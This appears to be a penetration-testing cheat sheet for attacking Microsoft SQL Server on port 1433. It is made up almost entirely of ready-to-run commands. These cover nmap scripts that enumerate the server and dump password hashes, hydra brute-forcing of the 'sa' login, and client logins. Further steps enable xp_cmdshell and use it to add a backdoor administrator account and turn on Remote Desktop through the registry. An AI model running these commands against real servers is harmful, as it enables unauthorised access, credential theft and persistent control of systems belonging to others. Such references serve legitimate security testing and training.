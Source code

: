 # MSSQL - Microsoft SQL Server - 1433

## MSSQL Information

## Automated Enumeration

Nmap has a few scripts that we can use to enumerate MSSQL:

```
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

## Bruteforce

Quick brutetroce for pass “SA” password

```
hydra -l sa -P password.txt -V $ip mssql
```

## Authentication

Connect to MSSQL Server:

```
sqsh -S server_address -U sa -P password
```

### sqsh <a href="#sqsh" id="sqsh"></a>

Connect to MSSQL with valid credentials:

```
sqsh -S <ip> -U username -P password
```

### mssqlclient.py <a href="#mssqlclientpy" id="mssqlclientpy"></a>

Authenticate to MSSQL with Windows Authentication:

```
mssqlclient.py mssql-svc@<ip> -windows-auth
mssqlclient.py -port 1435 sa:P@$$Word@<IP>
```

## Execute Shell Commands

Enable xp\_cmdshell:

```
exec sp_configure 'show advanced options', 1;
go
reconfigure;
go
exec sp_configure 'xp_cmdshell', 1;
go
reconfigure;
go
```

Execute System Command:

```
xp_cmdshell 'net user byte bytepass /add';
go
xp_cmdshell 'net localgroup Administrators byte /add';
go
xp_cmdshell 'reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f';
go
```

